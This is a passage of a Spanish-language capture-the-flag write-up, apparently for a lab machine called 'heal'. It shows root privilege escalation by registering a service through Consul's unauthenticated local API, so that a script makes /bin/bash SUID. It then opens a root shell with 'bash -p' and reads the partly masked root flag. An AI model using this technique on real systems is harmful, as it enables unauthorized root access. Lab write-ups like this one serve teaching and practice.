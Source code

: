 Luego de crear un script en `/tmp/test.sh` que haga la bash SUID por ejemplo, enviaremos la respectiva petición a Consul para registrar el servicio.

```bash
ron@heal:/tmp$ curl \
    --request PUT \
    --data @test.json -v \
    http://127.0.0.1:8500/v1/agent/service/register?replace-existing-checks=true
*   Trying 127.0.0.1:8500...
* Connected to 127.0.0.1 (127.0.0.1) port 8500 (#0)
> PUT /v1/agent/service/register?replace-existing-checks=true HTTP/1.1
> Host: 127.0.0.1:8500
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 355
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Vary: Accept-Encoding
< X-Consul-Default-Acl-Policy: allow
< Date: Wed, 21 May 2025 23:16:17 GMT
< Content-Length: 0
< 
* Connection #0 to host 127.0.0.1 left intact
```

Luego de un ratito, veremos que:

```bash
ron@heal:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Por lo que ya podemos tomar la última flag.

```bash
ron@heal:/tmp$ bash -p
bash-5.1# cd /root
bash-5.1# ls -la
total 52
drwx------  7 root root 4096 May 21 15:31 .
drwxr-xr-x 19 root root 4096 Dec  8 13:57 ..
lrwxrwxrwx  1 root root    9 Nov 29 11:50 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .bundle
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .cache
-rwxr-xr-x  1 root root  658 Sep 27  2024 cleanup-consul.sh
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .config
-rwxr-xr-x  1 root root  863 Oct  7  2024 consul-up.sh
drwxr-xr-x  3 root root 4096 Dec  8 13:57 .local
-rwxr-xr-x  1 root root  585 Dec  4 10:09 plugin_cleanup.sh
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r-----  1 root root   33 May 21 15:31 root.txt
drwx------  2 root root 4096 Dec  8 13:57 .ssh
bash-5.1# cat root.txt
8b60d4f3c7d4c3ebed7df34ecb******
```
